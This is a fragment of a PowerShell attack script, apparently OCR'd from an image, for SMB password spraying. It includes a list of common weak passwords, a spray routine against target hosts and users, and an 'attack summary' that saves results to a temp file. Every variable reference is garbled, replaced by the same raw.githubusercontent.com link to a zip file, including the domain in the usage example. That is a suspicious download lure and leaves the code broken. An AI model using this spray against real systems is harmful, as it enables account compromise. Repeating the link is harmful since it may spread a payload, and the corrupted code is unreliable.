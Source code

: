         Write-Host "[*] Targeting $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) users" -ForegroundColor Yellow
        
        # Step 4: Password list (if not provided)
        if (-not $CustomPasswords) {
            $passwordList = @(
                "Password1",
                "Password123",
                "Spring2024",
                "Fall2024",
                "Company123",
                "Welcome1",
                "Password@123",
                "Season@123"
            )
        } else {
            $passwordList = $CustomPasswords
        }
        
        Write-Host "[*] Using $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) passwords for spray" -ForegroundColor Yellow
        
        # Step 5: Perform password spray
        $results = Invoke-SMBPasswordSpray -TargetHosts $targetHosts -UserList $targetUsers -PasswordList $passwordList -Domain $Domain
        
        # Step 6: Report results
        Write-Host "`n[*] ATTACK SUMMARY" -ForegroundColor Cyan
        Write-Host "[*] Successful authentications: $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)" -ForegroundColor Cyan
        
        if ($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip -gt 0) {
            $results | Format-Table -AutoSize
            # Save results to temporary file
            $tempFile = "$env:TEMP\smb_results_$(Get-Date -Format 'yyyyMMddHHmmss').txt"
            $results | ConvertTo-Json | Out-File -FilePath $tempFile
            Write-Host "[+] Results saved to: $tempFile" -ForegroundColor Green
        }
        
    } catch {
        Write-Host "[-] Error during attack: $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)" -ForegroundColor Red
    } finally {
        Invoke-Cleanup
    }
}

# Usage examples (uncomment and modify as needed):
<#
# Basic usage
Invoke-SMBAttack -Domain "https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip"
